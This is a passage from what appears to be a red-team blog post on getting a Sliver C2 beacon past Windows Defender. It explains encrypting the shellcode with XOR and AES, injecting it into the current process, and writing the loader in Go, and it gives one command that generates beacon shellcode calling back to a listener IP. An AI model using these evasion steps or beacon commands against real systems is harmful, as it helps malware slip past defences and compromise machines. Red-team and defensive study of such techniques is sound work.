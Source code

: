 Next, we attempt to transfer the binary to our Windows machine. However, the moment it touches the disk, Defender flags the signature as Sliver.

![](/assets/posts/2023-12-10-bypassing-defender-to-run-sliver/sliver_caught.bmp)

Now, we can attempt to use a common technique to bypass AV, which involves using a cryptor. The same techniques that developers use to secure information from attackers can be applied to bypass AV/EDR. For this blog, we will XOR the shellcode and then run it through AES encryption, opting for PKCS#5 padding. Although you can use PKCS#7 padding if you prefer. The initial step is to generate shellcode with Sliver.

```bash
generate beacon -f shellcode -m 10.10.10.10
```

![](/assets/posts/2023-12-10-bypassing-defender-to-run-sliver/sliver_generate_shellcode.bmp)

When examining the size of the .bin file that Sliver generates, we noticed it is quite large. This poses a challenge, as it rules out, in my opinion, two common techniques: process injection and process hollowing. Traditionally, both of these processes involve injecting code into an already running process. Attempting to allocate and write 16MB of data into an already running legitimate process is undoubtedly risky.

To overcome this challenge, I've chosen a method involving code injection into the current process that runs when executing the binary. While allocating and writing 16MB of data is a substantial amount, the concept of processes allocating and writing new memory in large amounts is not uncommon. Therefore, I believe this is the safest method to use, providing some stability.\
\
For this blog, I will be writing my code in Go and cross-compiling for Windows. Although Go is statically compiled, resulting in larger binaries, it adds a layer of obscurity because it isn't native to the Windows OS. To kick off the process, we need to install Golang on our machine.
